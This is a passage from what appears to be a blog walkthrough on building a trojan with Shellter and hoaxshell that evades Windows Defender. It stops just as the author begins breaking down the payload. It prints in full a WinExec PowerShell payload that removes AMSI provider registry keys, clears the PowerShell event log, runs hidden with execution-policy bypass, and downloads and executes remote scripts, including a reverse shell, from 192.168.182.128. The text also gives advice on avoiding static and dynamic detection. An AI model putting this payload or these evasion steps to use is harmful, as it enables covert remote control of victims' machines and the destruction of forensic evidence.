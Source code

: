![](/assets/img/defender-evasion-shellter-hoaxshell/shellter2.png)

Paradoxically, enabling **Stealth Mode** makes the trojan much more detectable by static analysis on VirusTotal, which is why I chosed to disable it, thus going to change the general behavior of the executable, which will then stop doing what it was intended to do.

**WinExec** was chosen as the payload, through which I'm going to execute some of my PowerShell code that will then trigger the actual reverse shell. Embedding a Meterpreter reverse shell or, more generally, a custom one created with `msfvenom` is a risk; generally speaking, it has a higher probability of being detected by both static and especially dynamic analyses. [Trojan:Win32/Meterpreter](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Trojan:Win32/Meterpreter)

The **WinExec** payload chosen is the following:
```powershell
cmd /c start /wait /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni -c "Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers*\*' -Force -ea SilentlyContinue; Clear-EventLog -LogName 'Windows PowerShell' -ea SilentlyContinue" & cmd /c start /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.182.128/4m51.ps1'); Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers*\*' -Force -ea SilentlyContinue; Start-Sleep -Seconds 30; iex(New-Object Net.WebClient).DownloadString('http://192.168.182.128/revs.ps1'); Clear-EventLog -LogName 'Windows PowerShell' -ea SilentlyContinue"
```
Let's analyze it piece by piece; first of all, I should split the entire payload into two pieces, where the first one will be very effective only during the second phase of this activity, namely once the Administrator right is obtained: